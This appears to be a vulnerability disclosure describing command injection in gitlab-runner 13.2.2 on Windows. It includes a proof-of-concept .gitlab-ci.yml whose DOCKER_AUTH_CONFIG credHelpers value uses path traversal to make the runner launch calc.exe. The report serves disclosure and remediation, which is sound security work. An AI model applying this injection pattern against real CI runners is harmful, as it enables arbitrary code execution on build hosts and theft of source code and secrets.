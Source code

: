 This works as the following three conditions are met:
1. The source of the volume mounted `build` directory is predictable per build
1. The `DOCKER_AUTH_CONFIG` is processed once for each created container
1. The build container is created after all `service` containers have been started.

## Steps to reproduce

* Register and run a runner on a Windows system with a docker executor and a tag of `windows-docker-runner`.
* Create a Build with the following `.gitlab-ci.yml`:

```yml
services:
  - alpasdfasdfasdfasdfasdfidne:3.5
variables:
  DOCKER_AUTH_CONFIG: "{\"credHelpers\" : {\"repo.example.com\" : \"/../../../../../../../../Windows/System32/calc.exe\"}}"

build1:
  tags:
    - windows-docker-runner
  stage: build
  script:
    - whoami
```

When `gitlab-runner` picks up the build it will process the `DOCKER_AUTH_CONFIG` json and launch the CredentialHelper specified, in this case `calc.exe`.

Confirmed vulnerable version configurations are:
* gitlab-runner 13.2.2 on Windows 10 with Docker Toolbox (`docker` runner)
* gitlab-runner 13.2.2 on Windows 2019 with Docker Enterprise (`docker-windows` runner)

## Impact

Exploitation of this issue could compromise the underlying system on which `gitlab-runner` runs, exposing source code, build artifacts and other sensitive data to a malicious user.

## What is the current *bug* behavior?

gitlab-runner passes unsanitized JSON values from the `DOCKER_AUTH_CONFIG` build variable to the `github.com/docker/cli/cli/config/credentials/native_store.go:NewNativeStore` `docker` API function, which may result in command injection on Windows systems.

## What is the expected *correct* behavior?

JSON supplied via the `DOCKER_AUTH_CONFIG` build variable should be processed to ensure it does not contain malicious content.

## Relevant logs and/or screenshots

{F943021}
